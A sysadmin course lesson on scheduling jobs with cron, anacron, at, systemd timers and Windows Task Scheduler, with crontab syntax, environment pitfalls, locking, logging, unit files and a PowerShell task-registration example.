

# Day 25: Task Scheduling and Automation

!!! info "Lesson overview"
    | | |
    |---|---|
    | **Module** | 5 — Scripting & Automation (last day of the module) |
    | **Difficulty** | :material-signal-cellular-3: Intermediate → Advanced |
    | **Estimated time** | 3–4 hours (75 min reading, 90 min demonstrations, 60–90 min lab and quiz) |
    | **Platforms** | Ubuntu 24.04 LTS (cron 3.0pl1-184ubuntu2, at 3.2.5, systemd 255, util-linux 2.39, logrotate 3.21) · Windows 11 / Windows Server 2022 (Windows PowerShell 5.1 and PowerShell 7.4+) |
    | **Lab** | [Lab 25: Scheduled Health Checks](../../labs/lab-25.md) |

## Learning Objectives

By the end of this lesson you will be able to:

1. Explain **why** work is scheduled and choose the right scheduler: cron, anacron, `at`/`batch`, systemd timers or Windows Task Scheduler.
2. Read and write **crontab** lines with confidence: the five time fields, ranges, steps, lists, names and `@` shortcuts — including the surprising **day-of-month OR day-of-week** rule.
3. Manage user crontabs (`crontab -e/-l/-r/-u`) and system crontabs (`/etc/crontab`, `/etc/cron.d`, `/etc/cron.daily` with `run-parts`) safely, and control who may use cron.
4. Write jobs that survive the **cron environment**: minimal `PATH`, `/bin/sh`, no profile, `%` escaping, no mail server — and log their own results with `logger` and a log file.
5. Make jobs **safe to repeat**: locking with `flock -n`, time limits with `timeout`, idempotent actions, UTC timestamps, log rotation with a `logrotate` drop-in, and **exit codes as the contract** between script and scheduler.
6. Build a **systemd timer** with a `Type=oneshot` service, verify it with `systemd-analyze calendar` and `systemd-analyze verify`, and inspect it with `systemctl list-timers` and the journal.
7. Create, run and troubleshoot **Windows scheduled tasks** with `Register-ScheduledTask` and its helper cmdlets, interpret `LastTaskResult`, use `schtasks.exe`, and read the Task Scheduler operational log.
8. **Hunt** for malicious scheduled jobs (MITRE ATT&CK T1053) on both platforms and spot privilege-escalation risks such as root jobs that run writable scripts.

## Prerequisites

- [Day 09](../module-2/day-09.md) (processes and services: `systemctl`, unit files, `Get-Service`) and [Day 16](../module-4/day-16.md) (logs: `journalctl`, syslog, `Get-WinEvent`).
- [Days 21–24](day-21.md): variables, conditions, functions, exit codes and text processing. Today you **schedule** the scripts you wrote this module.
- The Day 25 scripts from the [scripts library](../../projects/scripts.md): `scripts/linux/system-health.sh` and `scripts/powershell/System-Health.ps1` (exit 0 OK, 1 invalid arguments, 2 output directory problem, 3 threshold breached).
- Ubuntu: a normal user with `sudo`. `cron` is installed and running on standard Ubuntu installs; `at` may need `sudo apt install at`; `logrotate` is installed by default on servers and desktops.
- Windows: an **elevated** PowerShell for tasks that run as SYSTEM; a normal PowerShell for tasks that run as yourself while logged on.

## Introduction and Concepts

### Why schedule?

Anything an administrator does more than twice should be a script (Days 21–24); anything that must happen **at a time** or **regularly** should be a scheduled script. Typical jobs:

| Job | Schedule | Why a schedule beats a human |
|---|---|---|
| Health check (CPU, memory, disk, services) | every 15 minutes | Catches the disk that fills at 03:00, not the next morning |
| Backups and database dumps | nightly, off-peak | Consistent, never forgotten, run when load is low |
| Reports (capacity, failed logins, certificates) | daily / weekly | Same format every time, ready before the 09:00 meeting |
| Log rotation and clean-up | daily | Keeps disks from filling with old logs and reports |
| Patch windows, reboots | weekly, in an agreed window | Change control: everyone knows when it happens |
| Connectivity / DNS checks | every few minutes | Builds a history that proves *when* an outage started |

A scheduled job runs **without you**: no terminal, no prompt, no one reading the output. That changes how you write it. The job must find its programs on its own, finish in bounded time, never run twice at once, write down what happened, and tell the scheduler — through its **exit code** — whether everything was fine.

### The schedulers



| Scheduler | Best for | Missed runs (machine off)? | Logs | Notes |
|---|---|---|---|---|
| **cron** | Simple recurring jobs on servers | Skipped | syslog (`/var/log/syslog`, journal `-u cron`) | Everywhere; one line per job |
| **anacron** | Daily/weekly/monthly jobs on laptops and desktops | **Run later** (once) | syslog | Granularity: days, not minutes |
| **at / batch** | One-off jobs ("run this at 22:00 tonight") | Run when `atd` starts again | syslog | `batch` waits for low load |
| **systemd timer** | Modern Linux services; dependencies, hardening, journald | **Optional catch-up** (`Persistent=true`) | journal per unit | Two files per job; much more control |
| **Task Scheduler** | Windows | Optional (`-StartWhenAvailable`) | TaskScheduler Operational log | Rich triggers: logon, startup, events |

### cron on Ubuntu (and RHEL)

- **Ubuntu/Debian:** the package is `cron` (Debian's long-maintained fork of Paul Vixie's cron, version `3.0pl1`), the service is **`cron`** (`systemctl status cron`), user crontabs live in `/var/spool/cron/crontabs/`, and job logs go to syslog with the facility `cron`.
- **RHEL/Fedora/Rocky:** the package is **`cronie`**, the service is **`crond`**, crontabs live in `/var/spool/cron/`, and logs go to `/var/log/cron`. cronie has extra features such as `CRON_TZ` (a per-crontab time zone) and `cronnext`.

The cron daemon wakes up every minute, checks every crontab, and starts the jobs whose time fields match the current minute. It notices changed crontabs by itself — you never restart cron after `crontab -e`. Each job runs as the crontab's owner, with standard output and standard error **mailed** to that owner (if a mail transfer agent exists — usually it does not).

### The crontab line

```text
┌───────────── minute        (0–59)
│ ┌─────────── hour          (0–23)
│ │ ┌───────── day of month  (1–31)
│ │ │ ┌─────── month         (1–12 or jan…dec)
│ │ │ │ ┌───── day of week   (0–7, 0 and 7 = Sunday, or sun…sat)
│ │ │ │ │
*/15 * * * *  /home/student/lab25/bin/lab25-run-health.sh quick
```

| Syntax | Meaning | Example | Runs |
|---|---|---|---|
| `*` | every value ("first–last") | `* * * * *` | every minute |
| `a-b` | range (inclusive) | `0 8-18 * * 1-5` | on the hour, 08:00–18:00, Monday–Friday |
| `a,b,c` | list | `0 6,18 * * *` | 06:00 and 18:00 |
| `*/n`, `a-b/n` | step | `*/15 * * * *` · `0 0-23/2 * * *` | minutes 0, 15, 30, 45 · every second hour |
| names | `jan`–`dec`, `sun`–`sat` (single names; ranges and lists of names are not allowed by the Debian man page — use numbers) | `30 2 * * sun` | Sunday 02:30 |
| `@reboot` | once, when the cron **daemon** starts | `@reboot /usr/local/bin/warm-cache` | at boot (cron start) |
| `@hourly` `@daily` (`@midnight`) `@weekly` `@monthly` `@yearly` (`@annually`) | `0 * * * *` · `0 0 * * *` · `0 0 * * 0` · `0 0 1 * *` · `0 0 1 1 *` | `@daily /usr/local/bin/report` | midnight |

Three rules catch almost everyone:

1. **Day of month OR day of week.** If **both** fields are restricted (neither is `*`), the job runs when **either** matches. `30 4 1,15 * 5` runs on the 1st, on the 15th **and every Friday** — not "Fridays that are the 1st or 15th". To get "first Monday of the month", restrict only one field and test the other in the command: `0 5 * * 1 [ "$(date +\%d)" -le 07 ] && /usr/local/bin/monthly-report`. (Vixie-derived crons decide "restricted" by whether the field *starts with* `*`, so `*/2` in one of the fields also counts as unrestricted.)
2. **`@` shortcuts all run at midnight.** If 200 servers run `@daily` jobs that hit the same backup server, they all start at 00:00:00. Choose odd minutes (`17 2 * * *`) and spread machines out.
3. **`@reboot` means "when cron starts".** Debian's cron runs `@reboot` jobs only once per boot (it keeps the marker file `/run/crond.reboot`; restarting `cron` logs "Skipping @reboot jobs -- not system startup"), but the network or other services may not be ready yet. For "after boot when the network is up", a systemd unit or timer with `OnBootSec=` and dependencies is the better tool.

### Where crontabs live

| File | Edited with | User field? | Notes |
|---|---|---|---|
| `/var/spool/cron/crontabs/USER` (Ubuntu) · `/var/spool/cron/USER` (RHEL) | `crontab -e` / `crontab FILE` | No — runs as the owner | Never edit the spool file directly; `crontab` validates and signals cron |
| `/etc/crontab` | `sudoedit /etc/crontab` | **Yes** (6th field) | Ubuntu uses it to start `run-parts` for the `cron.*` directories |
| `/etc/cron.d/NAME` | `sudoedit` | **Yes** | Drop-in files for packages and admins. Must be owned by root, not group/other-writable, and the **file name must not contain dots** |
| `/etc/cron.hourly/`, `cron.daily/`, `cron.weekly/`, `cron.monthly/` | drop an executable script | — | Run by `run-parts`; names may contain only letters, digits, `_` and `-` — `backup.sh` is **silently ignored** |
| `/etc/cron.allow`, `/etc/cron.deny` | `sudoedit` | — | If `cron.allow` exists, only listed users may use `crontab`; otherwise everyone **not** in `cron.deny`. Ubuntu ships neither, so all users may use cron |

On Ubuntu the default `/etc/crontab` runs `/etc/cron.hourly` at minute 17 and the daily, weekly and monthly directories at 06:25, 06:47 (Sunday) and 06:52 (on the 1st) — but only `test -x /usr/sbin/anacron || …`, i.e. when anacron is **not** installed. Many package jobs in `/etc/cron.d` and `/etc/cron.daily` also start with `test -e /run/systemd/system ||` or `if [ -d /run/systemd/system ]; then exit 0; fi`: on a normal systemd boot they step aside because the package ships a **systemd timer** that does the same work (for example `logrotate.timer`, `e2scrub_all.timer`).

### The cron environment

A job does **not** run in your login shell. Captured in this lesson's demonstrations, a user job on Ubuntu 24.04 gets exactly this environment:

```text
HOME=/home/student
LANG=C.UTF-8
LOGNAME=student
PATH=/usr/bin:/bin
PWD=/home/student
SHELL=/bin/sh
```

Consequences:

- **`PATH=/usr/bin:/bin`.** Commands in `/usr/sbin`, `/usr/local/bin` or `~/bin` are "not found". Use absolute paths, or set `PATH=` at the top of the crontab (the value is **not** expanded: `PATH=$HOME/bin:$PATH` does not work), or set `PATH` inside the script — the most robust choice.
- **`SHELL=/bin/sh`** (dash on Ubuntu): no `[[ ]]`, arrays or `{1..5}` in the crontab line itself. Put logic in a script with a `#!/usr/bin/env bash` line, or set `SHELL=/bin/bash` in the crontab.
- **No profile, no `.bashrc`**, no aliases, no `ssh-agent`, no `DISPLAY`. Anything the job needs must be in the script.
- **Working directory = home directory.** Relative paths "work" only by accident.
- **`%` is special.** In the command field, an unescaped `%` becomes a newline and everything after the first `%` is sent to the command as **standard input**. `date +%F` must be written `date +\%F` in a crontab — or, better, moved into a script, where `%` is just a character.
- **Mail.** Any output is mailed to the owner, or to `MAILTO=` (`MAILTO=""` disables mail). Most servers have **no mail transfer agent**; Ubuntu's cron then logs `(CRON) info (No MTA installed, discarding output)` and the output — including your error messages — is gone.
- **Time zone.** Ubuntu's cron runs every crontab in the **system** time zone (`/etc/localtime`). It does **not** support `CRON_TZ`; setting `TZ=` in a crontab changes only the environment of the commands, not when they run (crontab(5), "LIMITATIONS"). cronie on RHEL does support `CRON_TZ`.
- **Locale and PAM.** `LANG` came from `/etc/default/locale` through PAM (`pam_env`); limits from `pam_limits` also apply.
- **Comments.** A `#` after a command on the same line is passed to the shell (which usually treats it as a comment), not interpreted by cron; environment lines cannot carry trailing comments at all.

### Logging and the exit-code contract

cron itself only records that a job **started**, **ended** and (with logging level 4) that it **failed** with a non-zero status. It does not know whether the disk was full. That is the job of the script, and it communicates through:

| Signal | Who reads it | Day 25 convention |
|---|---|---|
| **Exit code** | cron log (`grandchild … failed with exit status 3`), systemd (`status=3`), Task Scheduler (`LastTaskResult 3`) | `0` OK · `1` invalid arguments · `2` output problem · `3` threshold breached (**alert**) · `124` timed out |
| **One log line per run** | you, `grep`, a log shipper | `2026-11-19T16:50:09Z host=… mode=quick status=ALERT exit=3 …` |
| **syslog/journal message** (`logger -t lab25`) | `journalctl -t lab25`, SIEM | priority `warning` for alerts, `err` for failures |
| **Report file** (`-o DIR`) | humans, the next audit | one file per run, old files deleted after N days |
| **stdout/stderr** | mail (if any) | **quiet unless there is a problem** (`-q`) |

The distinction between **alert** (exit 3: the check worked and found a problem) and **failure** (exit 1, 2, 124: the check itself did not work) matters: one pages the on-call team about a full disk, the other tells you the monitoring is broken.

### Safe scheduled jobs: locking, time limits, idempotence

- **Overlap.** A job scheduled every 15 minutes that once takes 20 minutes now runs twice at the same time, maybe writing the same files. `flock -n LOCKFILE command` (util-linux) takes an exclusive lock or exits immediately with status 1 if another copy holds it.
- **Hangs.** A job waiting forever on a dead NFS server or DNS lookup blocks every later run (when locked) or piles up (when not). `timeout 120 command` sends SIGTERM after 120 s and returns **124**; `--kill-after=10` follows up with SIGKILL.
- **Idempotence.** Running the job twice must not do harm: `mkdir -p`, "create if missing", "delete files older than 14 days" — not "append the same line again".
- **UTC.** Log timestamps in UTC (`date -u +%Y-%m-%dT%H:%M:%SZ`) and, where you can, run servers in UTC. Local-time schedules meet **daylight saving time**: in the spring a 02:30 local time may not exist, in the autumn it happens twice.
- **Rotation.** A job that appends a line every 15 minutes writes 35,000 lines a year — and a verbose one fills the disk it monitors. Add a `logrotate` drop-in and delete old reports.

### systemd timers

A **timer unit** (`NAME.timer`) says *when*; it activates a **service unit** (by default `NAME.service`) that says *what* and *how*. Compared with cron you gain: logs per job in the journal, `systemctl status` with the last exit code, dependencies (`After=network-online.target`), resource limits and sandboxing, catch-up of missed runs (`Persistent=true`), randomised start times for fleets (`RandomizedDelaySec=`), and a test tool for schedules (`systemd-analyze calendar`). The price is two small files instead of one line.

| Timer setting | Meaning |
|---|---|
| `OnCalendar=` | Wall-clock schedule: `*-*-* 02:30:00`, `Mon..Fri 08:00`, `*:0/15`, `daily`, `weekly`; optional time zone at the end (`02:30 UTC`, `02:30 Europe/Berlin`). Several lines are allowed |
| `OnBootSec=` · `OnStartupSec=` | Monotonic: N after boot / after the service manager started (useful for user timers) |
| `OnUnitActiveSec=` · `OnUnitInactiveSec=` | N after the service last **started** / last **finished** — "every 15 minutes, measured from the last run" |
| `Persistent=true` | (with `OnCalendar=` only) remember the last run on disk and start **once** at boot if a run was missed while the machine was off — the anacron idea |
| `RandomizedDelaySec=` | Add a random delay (0…N) to each run, so 500 servers do not hit the backup server at the same second |
| `AccuracySec=` | How precisely to fire (default **1 min**); systemd groups wake-ups within this window to save power. Use `1s` only when you need it |
| `Unit=` | Activate a differently named unit |
| `WakeSystem=` | Resume from suspend to run (needs hardware support) |

The **service** for a scheduled job is normally `Type=oneshot`: systemd waits until `ExecStart=` finishes, and the unit is then inactive again with its result (`status=0/SUCCESS` or `status=3`). Add `User=`/`Group=` so it does not run as root, and cheap sandboxing such as `NoNewPrivileges=yes`, `PrivateTmp=yes` and `ProtectSystem=strict` with `ReadWritePaths=` for the directories the job may write — Ubuntu's own `logrotate.service` uses a dozen such options.

Timers can also run in your **user** service manager (`~/.config/systemd/user/`, `systemctl --user …`) without root. User services normally stop when you log out; `loginctl enable-linger USER` keeps the user manager running so user timers fire while nobody is logged in.

### Windows Task Scheduler

A scheduled task is an XML definition (stored under `C:\Windows\System32\Tasks\`) made of four parts, each with its own helper cmdlet in the **ScheduledTasks** module (Windows 8 / Server 2012 and later; works in Windows PowerShell 5.1 and PowerShell 7 on Windows):

| Part | Cmdlet | Examples |
|---|---|---|
| **Action** — what runs | `New-ScheduledTaskAction` | `powershell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -File C:\Lab25\bin\Lab25-Run-Health.ps1` |
| **Trigger** — when | `New-ScheduledTaskTrigger` | `-Daily -At 02:30`, `-AtStartup`, `-AtLogOn`, `-Weekly -DaysOfWeek Sunday`, `-Once -At … -RepetitionInterval` |
| **Principal** — as whom | `New-ScheduledTaskPrincipal` | `SYSTEM` (`-LogonType ServiceAccount`), a gMSA (`-LogonType Password`), the current user (`-LogonType Interactive`), `-RunLevel Highest` |
| **Settings** — how | `New-ScheduledTaskSettingsSet` | `-StartWhenAvailable`, `-ExecutionTimeLimit`, `-MultipleInstances IgnoreNew`, `-RestartCount`/`-RestartInterval`, battery options |

`Register-ScheduledTask` combines them; `Get-ScheduledTaskInfo` returns the last run time, **`LastTaskResult`** (the exit code of the action, or a Task Scheduler status code) and the next run time.

## Linux Command Reference

| Command | Purpose | Package / availability | Needs root? |
|---|---|---|---|
| `crontab -e` / `-l` / `-r` / `-i` / `FILE` / `-` | Edit, list, remove (`-i` asks first) or install a user crontab | `cron` (Ubuntu) · `cronie` (RHEL) | No (own crontab) |
| `crontab -u USER …` | Manage another user's crontab | `cron` | **Yes** |
| `/etc/crontab`, `/etc/cron.d/` | System crontabs with a user field | `cron` | Yes (to edit) |
| `run-parts [--test] [--report] DIR` | Run every valid executable in a directory (the `cron.daily` mechanism) | `debianutils` | Depends on the scripts |
| `cron -f -L 15` | Start the daemon in the foreground with full job logging (testing, containers) | `cron` | Yes |
| `anacron` | Run daily/weekly/monthly jobs that were missed while the machine was off | `anacron` (not installed on servers by default) | Yes |
| `at TIME` · `atq` · `atrm N` · `at -c N` · `batch` | One-off jobs; queue; remove; show job script; run when load is low | `at` (`sudo apt install at`), service `atd` | No |
| `flock [-n] [-w SEC] [-E CODE] LOCK CMD` | Run a command while holding a file lock | `util-linux` | No |
| `timeout [-k KILL] [-s SIG] DURATION CMD` | Run a command with a time limit (exit 124 when it expires) | `coreutils` | No |
| `logger -t TAG -p FACILITY.LEVEL MSG` | Write a message to syslog/the journal | `bsdutils` (util-linux) | No |
| `journalctl -u cron` · `-t TAG` · `-u NAME.service` | Read cron, tagged or per-unit job logs | `systemd` | No (own) / `adm` group |
| `systemctl list-timers [--all]` | Show timers: next and last run, unit activated | `systemd` | No |
| `systemctl [--user] enable --now NAME.timer` | Activate a timer (and at boot) | `systemd` | Yes (system) / No (user) |
| `systemd-analyze calendar [--iterations=N] EXPR` | Test an `OnCalendar=` expression | `systemd` | No |
| `systemd-analyze verify UNIT…` | Check unit files for errors | `systemd` | No |
| `systemd-run --on-calendar=… / --on-active=… CMD` | Create a transient timer + service | `systemd` | Yes (system) / No (`--user`) |
| `loginctl enable-linger USER` | Keep a user's service manager (and timers) running without a login | `systemd` | Yes for other users |
| `logrotate -d CONF` · `-f` · `-s STATE` | Test (debug, no changes) or force a rotation | `logrotate` | Depends on the logs |

## PowerShell Command Reference

| Cmdlet / tool | Aliases | Purpose | 5.1 | 7.x | Admin? |
|---|---|---|---|---|---|
| `New-ScheduledTaskAction` | — | Program + arguments + working directory of a task | Yes | Yes (Windows) | No |
| `New-ScheduledTaskTrigger` | — | Daily, weekly, once (+ repetition), at logon, at startup | Yes | Yes (Windows) | No |
| `New-ScheduledTaskPrincipal` | — | Account, logon type, run level | Yes | Yes (Windows) | No (to create the object) |
| `New-ScheduledTaskSettingsSet` | — | Time limit, missed-run, instance and restart policy | Yes | Yes (Windows) | No |
| `Register-ScheduledTask` | — | Create a task (`-Force` to replace) | Yes | Yes (Windows) | **Yes** for SYSTEM/other users/`-RunLevel Highest`; no for your own interactive task |
| `Get-ScheduledTask` | — | List tasks and their definitions (`Actions`, `Triggers`, `Principal`) | Yes | Yes (Windows) | No (some tasks hidden without admin) |
| `Get-ScheduledTaskInfo` | — | `LastRunTime`, `LastTaskResult`, `NextRunTime`, `NumberOfMissedRuns` | Yes | Yes (Windows) | No |
| `Start-` / `Stop-ScheduledTask` | — | Run now / stop a running instance | Yes | Yes (Windows) | Depends on the task |
| `Enable-` / `Disable-ScheduledTask` | — | Switch a task on or off | Yes | Yes (Windows) | Usually yes |
| `Set-ScheduledTask` | — | Change triggers, actions, settings or principal | Yes | Yes (Windows) | Usually yes |
| `Unregister-ScheduledTask` | — | Delete a task (`-Confirm:$false` to skip the prompt) | Yes | Yes (Windows) | Usually yes |
| `schtasks.exe /create /query /run /end /change /delete` | — | Classic command-line tool (also for remote PCs, batch files) | Yes | Yes (Windows) | As above |
| `Get-WinEvent -LogName Microsoft-Windows-TaskScheduler/Operational` | — | Task history (started, completed, return code) | Yes | Yes (Windows) | Reading: usually no; enabling: **yes** |
| `wevtutil gl` / `wevtutil sl … /e:true` | — | Show / enable an event log channel | Yes | Yes | **Yes** to change |
| `Register-ScheduledJob` | — | PowerShell scheduled jobs (`PSScheduledJob`) — **legacy** | **5.1 only** | **No** | Yes |
| `Start-Transcript` / `Stop-Transcript` | — | Record everything a script prints into a log file | Yes | Yes | No |

The ScheduledTasks cmdlets exist only on **Windows**; on Linux PowerShell 7 use cron or systemd.

## Detailed Command Explanations

### `crontab` — manage user crontabs

- `crontab -e` opens your crontab in `$VISUAL`/`$EDITOR` (Ubuntu asks once with `select-editor`). When you save, `crontab` checks the syntax and installs the file; on an error it offers to edit again.
- `crontab -l` prints it; when there is none it prints `no crontab for USER` and exits 1.
- `crontab FILE` / `crontab -` install a file / standard input **replacing** the whole crontab — the scriptable way, and how you restore a backup.
- `crontab -r` **deletes the whole crontab without asking**. `e` and `r` are neighbours on the keyboard. Always keep a backup (`crontab -l > ~/crontab.$(date -u +%Y%m%dT%H%M%SZ)`) and prefer `crontab -i -r`, which asks first.
- `sudo crontab -u alice -l` manages another user's crontab (root only).
- A crontab must **end with a newline**; `crontab` refuses a file without one ("new crontab file is missing newline before EOF, can't install."), and cron ignores such a file in `/etc/cron.d`.

### `/etc/crontab`, `/etc/cron.d` and `run-parts`

System crontabs have a **sixth field, the user**: `15 1 * * * root /usr/local/sbin/backup-db`. Files in `/etc/cron.d/` follow the same format but do **not** inherit variables from `/etc/crontab`. Rules checked by Ubuntu's cron (cron(8), "DEBIAN SPECIFIC"): owned by root, not group- or other-writable, name made only of letters, digits, `_` and `-`. A file named `lab25-demo.sh` or `backup.disabled` is ignored without any message; the rule exists so that `.dpkg-old` and `.dpkg-dist` copies left by package upgrades never run.

`run-parts DIR` runs every executable file in `DIR` with a valid name, in lexical order. `run-parts --test DIR` lists what **would** run — the quickest way to check why a `cron.daily` script never ran.

### The cron log

Ubuntu's cron logs through syslog with the facility `cron`. On a standard Ubuntu 24.04 system rsyslog writes these messages to `/var/log/syslog` (there is no separate `cron.log` unless you enable the `cron.*` line in `/etc/rsyslog.d/50-default.conf`), and the journal has them too:

```bash
journalctl -u cron --since "1 hour ago"      # the cron service and its jobs
grep CRON /var/log/syslog | tail              # the same, from rsyslog's file
journalctl -t lab25 -p warning                # messages your job wrote with logger -t lab25
```

The amount of detail is set by `-L` in `/etc/default/cron` (`EXTRA_OPTS="-L 15"`): 1 = job start (default), 2 = job end, 4 = failed jobs (non-zero exit), 8 = process numbers; add the numbers.

### `anacron`

anacron does not run in the background. It is started (by cron at boot and hourly, or by its systemd timer) and, for each job in `/etc/anacrontab`, checks a timestamp in `/var/spool/anacron/`: if the daily job has not run for a day, it runs it now (after a delay). That is why laptops, which are off at 06:25, still get their `cron.daily` jobs. On Ubuntu, installing `anacron` makes `/etc/crontab` skip the daily, weekly and monthly lines (`test -x /usr/sbin/anacron || …`) so the jobs never run twice. Servers that are always on normally do not need it — and `systemd` timers with `Persistent=true` give the same catch-up behaviour per job.

### `at`, `atq`, `atrm`, `batch`

`at` runs a job **once**: `echo "/usr/local/bin/reboot-if-needed" | sudo at 02:00 tomorrow`. Times: `now + 30 minutes`, `22:00`, `noon`, `midnight`, `teatime` (16:00), `02:30 2026-11-21`. Unlike cron, `at` **saves your current environment** (variables, working directory, umask) into the job, and the job runs with `/bin/sh`. `now + 1 minute` rounds to the start of the minute, so it can run after a few seconds. `atq` lists pending jobs, `at -c N` prints the job script, `atrm N` deletes it. `batch` queues a job to start when the load average drops below 1.5 (the `atd` default). Access is controlled with `/etc/at.allow` and `/etc/at.deny`. A typical use: schedule a **rollback** before a risky firewall change — "if I lose my SSH session, restore the old rules in 10 minutes".

### `flock` and `timeout`

```bash
flock -n /run/lock/backup.lock /usr/local/sbin/backup       # skip if a backup is still running
flock -w 300 /run/lock/backup.lock /usr/local/sbin/backup   # wait up to 5 minutes for the lock
flock -n -E 75 LOCK CMD                                      # exit 75 instead of 1 when busy
exec 9> "$LOCK"; flock -n 9 || exit 0                        # inside a script: lock held until exit
timeout 120 CMD          # SIGTERM after 120 s, exit status 124
timeout -k 10 120 CMD    # ... then SIGKILL 10 s later if still running
```

`flock` works on a lock **file**; the lock disappears when the process ends, even if it crashes — no stale "lock file exists" problems as with `if [ -e lockfile ]`. Use a path the job's user can write (`/run/lock` is world-writable with the sticky bit on Ubuntu; a directory of your own is cleaner). With `flock -n` alone, "busy" and "the command exited 1" look the same; `-E` gives the busy case its own code.

### `logger`

`logger -t lab25 -p user.warning "disk 93% on /"` sends one line to syslog/the journal with a **tag** (`-t`, shown as the program name) and a **priority** (`facility.level`: `user.info`, `user.warning`, `user.err`, `local0.notice` …). It is the simplest way for a scheduled job to reach central logging (Day 16): rsyslog forwards it, `journalctl -t lab25` finds it.

### systemd timer and service units

A complete pair for the Day 25 health check (system units in `/etc/systemd/system/`):

```ini
# /etc/systemd/system/lab25-health.service
[Unit]
Description=Lab 25 health check (quick, every 15 minutes)

[Service]
Type=oneshot
User=student
Group=student
Environment=LAB25_HOME=/home/student/lab25
ExecStart=/home/student/lab25/bin/lab25-run-health.sh quick
TimeoutStartSec=5min
Nice=10
NoNewPrivileges=yes
PrivateTmp=yes
ProtectSystem=strict
ReadWritePaths=/home/student/lab25
```

```ini
# /etc/systemd/system/lab25-health.timer
[Unit]
Description=Run lab25-health.service every 15 minutes

[Timer]
OnCalendar=*:0/15
AccuracySec=1min
Unit=lab25-health.service

[Install]
WantedBy=timers.target
```

- `Type=oneshot` + `TimeoutStartSec=` gives the job a hard time limit enforced by systemd (in addition to `timeout` in the script).
- There is **no** `[Install]` section in the service: it is started by the timer, not at boot. You enable the **timer**: `sudo systemctl enable --now lab25-health.timer`.
- After editing unit files: `sudo systemctl daemon-reload`.
- Run the job once by hand: `sudo systemctl start lab25-health.service`; see the result: `systemctl status lab25-health.service`, `journalctl -u lab25-health.service`.
- A non-zero exit puts the service into the **failed** state (`status=3`), visible in `systemctl --failed` and usable with `OnFailure=alert@%n.service`. If exit 3 should count as "success" for systemd, add `SuccessExitStatus=3` — but then you lose that signal.
- `Persistent=true` stores the last trigger time in `/var/lib/systemd/timers/`; `systemctl clean --what=state NAME.timer` removes it.

### `systemd-analyze calendar` and `verify`

`systemd-analyze calendar 'Mon..Fri 08:00'` prints the normalised expression and the next run(s) — use it **before** you enable a timer. `--iterations=N` shows more runs; `--base-time=` (systemd 254+) computes from another moment, which makes DST checks easy. `systemd-analyze verify FILE…` loads unit files and reports unknown keys, missing executables and timers without a schedule; it works even where systemd is not PID 1.

Note the logic difference: in systemd, `Mon *-*-1..7 05:00` means Monday **and** day 1–7 (the first Monday). The same idea in cron (`0 5 1-7 * 1`) means day 1–7 **or** Monday.

### `systemctl list-timers` and transient timers

```bash
systemctl list-timers                 # active timers, next/last run, unit
systemctl list-timers --all           # include inactive ones
systemctl --user list-timers          # your user timers
sudo systemd-run --on-calendar='*-*-* 03:00' --unit=lab25-once /usr/local/bin/report   # transient
systemd-run --user --on-active=10min /usr/bin/notify-send "Tea"                       # in 10 minutes
```

`systemd-run` creates a **transient** timer and service that disappear after a reboot (or after they run) — the systemd equivalent of `at`.

### `logrotate` drop-ins

Ubuntu runs `logrotate /etc/logrotate.conf` once a day (`logrotate.timer` on systemd systems, `/etc/cron.daily/logrotate` otherwise); `logrotate.conf` includes every file in `/etc/logrotate.d/`. A drop-in for a job log:

```text
/home/student/lab25/log/*.log {
    su student student
    weekly
    rotate 8
    maxsize 5M
    compress
    delaycompress
    missingok
    notifempty
    create 0640 student student
}
```

`su USER GROUP` makes logrotate work as the log owner; without it, logrotate refuses to rotate in a directory that is group- or world-writable by a non-root group ("parent directory has insecure permissions"). Test with `sudo logrotate -d /etc/logrotate.d/lab25-health` — **debug mode changes nothing** — and `-f` to force a real rotation.

### Windows: `New-ScheduledTask*` and `Register-ScheduledTask`

```powershell
$action = New-ScheduledTaskAction -Execute 'powershell.exe' `
    -Argument '-NoProfile -NonInteractive -ExecutionPolicy Bypass -File "C:\Lab25\bin\Lab25-Run-Health.ps1" -Mode Quick' `
    -WorkingDirectory 'C:\Lab25'
$trigger = New-ScheduledTaskTrigger -Daily -At '00:00'
$trigger.Repetition = (New-ScheduledTaskTrigger -Once -At '00:00' `
    -RepetitionInterval (New-TimeSpan -Minutes 15) -RepetitionDuration (New-TimeSpan -Days 1)).Repetition
$principal = New-ScheduledTaskPrincipal -UserId 'SYSTEM' -LogonType ServiceAccount -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -MultipleInstances IgnoreNew `
    -ExecutionTimeLimit (New-TimeSpan -Minutes 10) -RestartCount 2 -RestartInterval (New-TimeSpan -Minutes 1) `
    -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -TaskName 'Lab25-Health' -TaskPath '\Lab25\' -Action $action -Trigger $trigger `
    -Principal $principal -Settings $settings -Description 'Lab 25 health check every 15 minutes'
```

- **Action.** Call `powershell.exe` (5.1) or `pwsh.exe` (7) with **`-File`**: then the script's `exit 3` becomes the process exit code and `LastTaskResult` shows `3`. With `-Command`, an `exit` inside a script file is not passed through reliably — any error just gives `1`. `-NoProfile` (no profile surprises), `-NonInteractive` (fail instead of waiting for input that never comes), `-ExecutionPolicy Bypass` for this process only (the machine policy is unchanged; use signed scripts with `AllSigned` where policy requires it). Quote paths with spaces.
